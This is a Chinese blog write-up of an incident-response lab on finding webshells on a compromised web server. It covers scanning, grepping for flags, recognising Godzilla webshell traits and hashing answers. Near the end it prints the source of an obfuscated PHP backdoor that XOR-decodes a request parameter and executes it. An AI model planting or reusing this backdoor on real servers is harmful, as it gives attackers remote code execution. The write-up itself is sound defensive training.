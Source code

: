 ```yaml
---
title: 玄机-webshell查杀
date: 2024-11-17 22:47:15
permalink: /pages/a0b4dd/
author: 
  name: Cola
  link: https://the0n3.top
---
```

靶机账号密码 root xjwebshell

- 1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 2.黑客使用的什么工具的shell github地址的md5 flag{md5}
- 3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 4.黑客免杀马完整路径 md5 flag{md5}


可以使用xftp，xshell这些成熟工具连接靶机，操作方便


命令行ssh连接靶机，tar命令打包网站目录，scp命令把网站源码下载到本地

```bash
ssh root@ip
# yes,输入密码，默认输入不显示
cd /var/www/html
tar -czvf www.tar.gz -C /var/www/html .
```

windows本地下载靶机里打包好的源码，解压，使用D盾扫描一下，重点关注这些webshell

```bash
scp root@161.189.226.230:/var/www/html/www.tar.gz .
```

D盾扫一下，重点关注这些webshell，在include/gz.php中找到flag，这个gz.php竟然是webshell，打完分析一下

![1](https://the0n3.top/medias/xj-webshell/1.png)

![2](https://the0n3.top/medias/xj-webshell/2.png)

也可以使用`grep`命令通过`-E`参数正则匹配webshell里的flag，太香了。想学linux三剑客！

```bash
cat *.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,5}"
cat */*.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,4}-.{1,5}"
```

关于黑客使用的什么webshell工具

跟踪D盾扫描的记录，在`gz.php`,`include/Db/.Mysqli.php`都出现了`getBasicsInfo`，这也算是是`哥斯拉`的一个典型特征吧

![4](https://the0n3.top/medias/xj-webshell/4.png)

以及文件开头的隐藏行为

```php
@session_start(); - 开启一个会话。
@set_time_limit(0); - 设置脚本执行时间为无限。
@error_reporting(0); - 关闭所有错误报告。
```

[哥斯拉项目地址](https://github.com/BeichenDream/Godzilla)

```bash
php -a
echo md5('https://github.com/BeichenDream/Godzilla');
```

关于隐藏shell的完整路径的md5，在linux里，文件名以`.`开头是隐藏文件，那么这个隐藏shell还是`include/Db/.Mysqli.php`，完整路径就是`/var/www/html/include/Db/.Mysqli.php`

```bash
php -a
echo md5('/var/www/html/include/Db/.Mysqli.php');
```

最后，哪个是免杀马？免杀是什么？

> 免杀：免杀（也叫 绕过杀软 或 绕过检测）是指恶意软件、木马、病毒或攻击代码通过某些技术手段避免被常见的安全防护软件（如杀毒软件、入侵检测系统、入侵防御系统、Web应用防火墙等）检测到或阻止。

一些常见手段：

- 代码加密和混淆
- 动态加载或执行
- 特征伪装
- 错误抑制和日志隐藏
- 自我修改和变异

在`include/wap/top.php`的源码中，存在动态构造后门和编码的过程，可以认为是免杀马

![5](https://the0n3.top/medias/xj-webshell/5.png)

```php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
```

参考、致谢：

- [玄机第一章 应急响应-webshell查杀](https://baozongwi.xyz/2024/10/24/%E7%8E%84%E6%9C%BA%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/)
- [玄机——第一章 应急响应-webshell查杀 wp（手把手保姆级教学）](https://blog.csdn.net/administratorlws/article/details/139521078)